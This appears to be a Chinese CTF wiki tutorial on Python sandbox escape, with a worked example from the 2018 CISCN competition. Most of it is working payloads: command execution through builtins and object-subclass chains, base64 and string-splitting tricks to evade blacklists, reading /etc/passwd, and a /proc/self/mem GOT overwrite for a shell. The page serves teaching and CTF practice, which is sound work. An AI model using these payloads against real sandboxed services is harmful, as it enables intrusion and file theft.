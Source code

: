[EN](./python-sandbox-escape.md) | [ZH](./python-sandbox-escape-zh.md)

# Python 沙盒
所谓的 Python 沙盒，即以一定的方法模拟 Python 终端，实现用户对 Python 的使用。

# Python 沙箱逃逸的一些方法
我们通常所说的 Python 沙箱逃逸就是绕过模拟的 Python 终端，最终实现命令执行。
## 导入模块
在 Python 的内建函数中，有一些函数可以帮助我们实现任意命令执行：
```
os.system() os.popen()
commands.getstatusoutput() commands.getoutput()
commands.getstatus()
subprocess.call(command, shell=True) subprocess.Popen(command, shell=True)
pty.spawn()
```
在 Python 中导入模块的方法通常有三种（xxx 为模块名称）：

1. `import xxx`
2. `from xxx import *`
3. `__import__('xxx')`

我们可以通过上述的导入方法，导入相关模块并使用上述的函数实现命令执行。
除此之外，我们也可以**通过路径引入模块**：
如在 linux 系统中 Python 的 os 模块的路径一般都是在 `/usr/lib/python2.7/os.py`，当知道路径的时候，我们就可以通过如下的操作导入模块，然后进一步使用相关函数。
```py
>>> import sys
>>> sys.modules['os']='/usr/lib/python2.7/os.py'
>>> import os
>>>
```
**其他的危险函数举例**
如 **execfile** 文件执行
```py
>>> execfile('/usr/lib/python2.7/os.py')
>>> system('cat /etc/passwd')
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
...
>>> getcwd()
'/usr/lib/python2.7'
```
**timeit**
```py
import timeit
timeit.timeit("__import__('os').system('dir')",number=1)
```

** exec 和 eval 比较经典了**
```py
eval('__import__("os").system("dir")')

```
**platform**
```py
import platform
print platform.popen('dir').read()
```

但是，正常的 Python 沙箱会以黑名单的形式禁止使用一些模块如 os 或以白名单的形式只允许用户使用沙箱提供的模块，用以阻止用户的危险操作。而如何进一步逃逸沙箱就是我们的重点研究内容。

## Python 的内建函数
当我们不能导入模块，或者想要导入的模块被禁，那么我们只能寻求 Python 本身内置函数（即通常不用人为导入，Python 本身默认已经导入的函数）。我们可以通过可以通过 `dir __builtin__` 来获取内置函数列表
```python
>>> dir(__builtins__)
['ArithmeticError', 'AssertionError', 'AttributeError', 'BaseException', 'BufferError', 'BytesWarning', 'DeprecationWarning', 'EOFError', 'Ellipsis', 'EnvironmentError', 'Exception', 'False', 'FloatingPointError', 'FutureWarning', 'GeneratorExit', 'IOError', 'ImportError', 'ImportWarning', 'IndentationError', 'IndexError', 'KeyError', 'KeyboardInterrupt', 'LookupError', 'MemoryError', 'NameError', 'None', 'NotImplemented', 'NotImplementedError', 'OSError', 'OverflowError', 'PendingDeprecationWarning', 'ReferenceError', 'RuntimeError', 'RuntimeWarning', 'StandardError', 'StopIteration', 'SyntaxError', 'SyntaxWarning', 'SystemError', 'SystemExit', 'TabError', 'True', 'TypeError', 'UnboundLocalError', 'UnicodeDecodeError', 'UnicodeEncodeError', 'UnicodeError', 'UnicodeTranslateError', 'UnicodeWarning', 'UserWarning', 'ValueError', 'Warning', 'ZeroDivisionError', '_', '__debug__', '__doc__', '__import__', '__name__', '__package__', 'abs', 'all', 'any', 'apply', 'basestring', 'bin', 'bool', 'buffer', 'bytearray', 'bytes', 'callable', 'chr', 'classmethod', 'cmp', 'coerce', 'compile', 'complex', 'copyright', 'credits', 'delattr', 'dict', 'dir', 'divmod', 'enumerate', 'eval', 'execfile', 'exit', 'file', 'filter', 'float', 'format', 'frozenset', 'getattr', 'globals', 'hasattr', 'hash', 'help', 'hex', 'id', 'input', 'int', 'intern', 'isinstance', 'issubclass', 'iter', 'len', 'license', 'list', 'locals', 'long', 'map', 'max', 'memoryview', 'min', 'next', 'object', 'oct', 'open', 'ord', 'pow', 'print', 'property', 'quit', 'range', 'raw_input', 'reduce', 'reload', 'repr', 'reversed', 'round', 'set', 'setattr', 'slice', 'sorted', 'staticmethod', 'str', 'sum', 'super', 'tuple', 'type', 'unichr', 'unicode', 'vars', 'xrange', 'zip']
```
在 Python 中，不引入直接使用的内置函数被成为 **builtin** 函数，随着 **__builtin__** 这个模块自动引入到环境中。那么我们如何引入的模块呢？我们可以通过 **__dict__** 引入我们想要引入的模块。**__dict__** 的作用是列出一个模组/类/对象 下面 所有的属性和函数。这在沙盒逃逸中是很有用的,可以找到隐藏在其中的一些东西
**__dict__**能做什么呢？
我们知道，一个模块对象有一个由字典对象实现的命名空间，属性的引用会被转换为这个字典中的查找，例如，m.x 等同于 m.dict["x"]。

绕过实例：
首先通过 base64 绕过字符明文检测
```python
>>> import base64
>>> base64.b64encode('__import__')
'X19pbXBvcnRfXw=='
>>> base64.b64encode('os')
'b3M='
```
然后通过 **__dict__** 引用
```py
>>> __builtins__.__dict__['X19pbXBvcnRfXw=='.decode('base64')]('b3M='.decode('base64'))
```

*如果一些 内敛函数在 __builtins__ 删除 ，我们可以通过 reload(__builtins__) 重新载入获取一个完整的 __builtins__*
## 创建对象以及引用
Python 的 object 类中集成了很多的基础函数，我们想要调用的时候也是可以通过创建对象进而引用。

我们有常见的两个方法：
```bash
().__class__.__bases__[0]
''.__class__.__mro__[2]
```
![](http://oayoilchh.bkt.clouddn.com/18-5-3/14928461.jpg)
如，我们可通过
`print ().__class__.__bases__[0].__subclasses__()[40]("/etc/services").read()`达到文件读取的效果，

**常见payload**
```py
#读文件
().__class__.__bases__[0].__subclasses__()[40](r'C:\1.php').read()

#写文件
().__class__.__bases__[0].__subclasses__()[40]('/var/www/html/input', 'w').write('123')

#执行任意命令
().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").popen("ls  /var/www/html").read()' )
```

## 间接引用
在有些题目中，如这次的2018年国赛的 Python 沙盒题目上，import 其实整个是被阉割了。但是在 Python 中，原生的 **__import__** 是存在被引用的，只要我们找到相关对象引用就可以进一步获取我们想要的内容，具体下面的demo会讲述到

## write修改got表
实际上是一个 **/proc/self/mem** 的内存操作方法
**/proc/self/mem** 是内存镜像，能够通过它来读写到进程的所有内存，包括可执行代码，如果我们能获取到Python一些函数的偏移，如 **system** ，我们便可以通过覆写 got 表达到 getshell的目的。
```py
(lambda r,w:r.seek(0x08de2b8) or w.seek(0x08de8c8) or w.write(r.read(8)) or ().__class__.__bases__[0].__subclasses__()[40]('c'+'at /home/ctf/5c72a1d444cf3121a5d25f2db4147ebb'))(().__class__.__bases__[0].__subclasses__()[40]('/proc/self/mem','r'),().__class__.__bases__[0].__subclasses__()[40]('/proc/self/mem', 'w', 0))
```
第一个地址是 system 的偏移，第二个是fopen的偏移，我们可以通过 **objdump** 获取相关信息
![](http://oayoilchh.bkt.clouddn.com/18-5-3/25123674.jpg)

# 例子
2018 ciscn 全国大学生信息安全竞赛中的 Python 沙箱逃逸。
我们可以通过`print ().__class__.__bases__[0].__subclasses__()[40]("/home/ctf/sandbox.py").read()` 获取题目源码，然后可以进一步分析，以下提供三种逃逸方法。
### 创建对象并利用 Python 操作字符串的特性
```py
x = [x for x in [].__class__.__base__.__subclasses__() if x.__name__ == 'ca'+'tch_warnings'][0].__init__
x.__getattribute__("func_global"+"s")['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('l'+'s')
x.__getattribute__("func_global"+"s")['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('l'+'s /home/ctf')
x.__getattribute__("func_global"+"s")['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('ca'+'t /home/ctf/5c72a1d444cf3121a5d25f2db4147ebb')
```
### 劫持 got 表 getshell
```py
(lambda r,w:r.seek(0x08de2b8) or w.seek(0x08de8c8) or w.write(r.read(8)) or ().__class__.__bases__[0].__subclasses__()[40]('l'+'s /home/ctf/'))(().__class__.__bases__[0].__subclasses__()[40]('/proc/self/mem','r'),().__class__.__bases__[0].__subclasses__()[40]('/proc/self/mem', 'w', 0))


(lambda r,w:r.seek(0x08de2b8) or w.seek(0x08de8c8) or w.write(r.read(8)) or ().__class__.__bases__[0].__subclasses__()[40]('c'+'at /home/ctf/5c72a1d444cf3121a5d25f2db4147ebb'))(().__class__.__bases__[0].__subclasses__()[40]('/proc/self/mem','r'),().__class__.__bases__[0].__subclasses__()[40]('/proc/self/mem', 'w', 0))

```
### 寻找 __import__ 的间接引用
在不断的 dir 过程中，发现 __closure__  这个 object 保存了参数，可以引用原生的 __import__
```py

print __import__.__getattribute__('__clo'+'sure__')[0].cell_contents('o'+'s').__getattribute__('sy'+'stem')('l'+'s home') 
```
# 参考
https://xz.aliyun.com/t/52#toc-10 
https://blog.csdn.net/qq_35078631/article/details/78504415 
https://www.anquanke.com/post/id/85571 
http://bestwing.me/2018/05/03/awesome-python-sandbox-in-ciscn/#0x01
